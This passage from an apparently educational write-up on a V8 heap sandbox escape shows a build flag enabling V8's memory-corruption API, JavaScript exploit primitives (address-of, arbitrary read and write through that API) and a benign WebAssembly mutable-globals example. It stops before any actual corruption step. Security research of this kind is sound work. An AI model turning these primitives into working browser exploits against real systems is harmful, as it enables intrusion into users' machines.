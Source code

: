 ```diff
+  v8_expose_memory_corruption_api = true
 
   # Experimental feature for collecting per-class zone memory stats.
   # Requires use_rtti = true
```

For this particular heap sandbox escape, we'll need to build out some typical exploit primitives. I won't go into much detail here, but you can find the relevant code below.

They pretty much all use the memory corruption api in their implementation, so I suggest you look
at the code for it (since it's completely undocumented, lmao) if you want to learn more.
[Here](https://chromium.googlesource.com/v8/v8/+/4a12cb1022ba335ce087dcfe31b261355524b3bf) is the
relevant commit.

```js
const addrof = o => {
  return Sandbox.getAddressOf(o);
};

const weak_read = p => {
  let reader = new Sandbox.MemoryView(p, 64);
  let view = new DataView(reader);
  return view.getBigUint64(0, true); 
};

const weak_write = (p, x) => {
  let writer = new Sandbox.MemoryView(p, 64);
  let view = new DataView(writer);
  view.setBigUint64(0, x, true);
};
```

## WebAssembly Mutable Globals 

Before digging into any memory corruption, I want to first explore web-assembly's mutable globals
functionality.

Some useful code for demonstrating this functionality can be found within the web-assembly
reference repo,
[here](https://github.com/mdn/webassembly-examples/blob/main/js-api-examples/global.wat). It
implements two functions, one for reading a 32-bit integer from a global variable, and another
incrementing that global variable by `1`.

```clojure
(module
  (global $g (import "js" "global") (mut i32))
  (func (export "getGlobal") (result i32)
    (global.get $g)
  )
  (func (export "incGlobal")
    (global.set $g (i32.add (global.get $g) (i32.const 1)))
  )
)
```
